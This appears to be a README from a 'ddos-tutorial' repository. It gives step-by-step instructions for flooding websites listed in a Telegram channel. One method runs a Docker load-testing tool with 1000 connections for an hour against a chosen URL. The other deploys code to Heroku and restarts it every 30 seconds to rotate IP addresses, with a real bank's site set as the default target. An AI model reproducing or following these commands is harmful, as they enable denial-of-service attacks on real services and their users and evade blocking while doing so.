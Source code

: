 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git push heroku master
```
5. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
6. In order to change destination, please change in the code `https://www.tinkoff.ru/` to any other destination.
